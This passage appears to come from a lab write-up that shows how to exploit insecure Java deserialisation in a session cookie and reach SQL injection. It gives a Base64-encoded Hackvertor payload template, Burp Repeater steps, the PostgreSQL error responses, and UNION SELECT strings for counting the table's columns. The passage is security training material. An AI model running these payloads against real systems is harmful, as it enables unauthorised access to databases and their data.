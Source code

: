 ![Serialisation](/_static/images/ser6.png)

You can then paste the raw serialised object into Burp Repeater and add tags that will update the offsets and Base64-encode the object automatically. This makes it much quicker to test a large number of payloads, and is compatible with Burp Intruder.

This template is Base64-encoded here to avoid copy/paste issues:

```text
PEBiYXNlNjRfND6s7QAFc3IAI2RhdGEucHJvZHVjdGNhdGFsb2cuUHJvZHVjdFRlbXBsYXRlAAAAAAAAAAECAAFMAAJpZHQAEkxqYXZhL2xhbmcvU3RyaW5nO3hwdAA8QGZyb21fY2hhcmNvZGVfMz48QGdldF9sZW4gLz48QC9mcm9tX2NoYXJjb2RlXzM+WU9VUi1QQVlMT0FELUhFUkU8QHNldF9sZW4+PEBsZW5ndGhfMD5ZT1VSLVBBWUxPQUQtSEVSRTxAL2xlbmd0aF8wPjxAL3NldF9sZW4+PEAvYmFzZTY0XzQ+
```

To use this template:

1. Copy and paste it into the session cookie in Burp Repeater.
2. Base64-decode it to reveal something that looks like this:

```text
<@base64_4>¬ísr#data.productcatalog.ProductTemplateLidtLjava/lang/String;xpt<@from_charcode_3><@get_len /><@/from_charcode_3>YOUR-PAYLOAD-HERE<@set_len><@length_0>YOUR-PAYLOAD-HERE<@/length_0><@/set_len><@/base64_4>
```
    
3. Replace both occurrences of YOUR-PAYLOAD-HERE with the payload that you want to test. Leave everything else as is.
4. Send the request. 

When the query causes no error:

```text
<p class=is-warning>java.lang.ClassCastException: Cannot cast data.productcatalog.ProductTemplate to lab.actions.common.serializable.AccessTokenUser</p>
```

When an error occurs, something like:

```text
<p class=is-warning>java.io.IOException: org.postgresql.util.PSQLException: ERROR: syntax error at or near &quot;1&quot;
Position: 71
```

If you want to check the output that Hackvertor generated, you can look at the request on the **Logger** tab.

5. Trying some random values and analysing the responses: The vulnerability can be exploited by stacked-timebased, time-based and error-based injections, but not boolean-based.

6. Enumerate the number of columns in the table (8).

```text
SELECT * FROM products WHERE id = ' UNION SELECT NULL--

<p class=is-warning>java.io.IOException: org.postgresql.util.PSQLException: ERROR: each UNION query must have the same number of columns
Position: 85</p>

...

SELECT * FROM products WHERE id = ' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--

<p class=is-warning>java.io.IOException: org.postgresql.util.PSQLException: ERROR: UNION types character varying and integer cannot be matched
Position: 85</p>
```
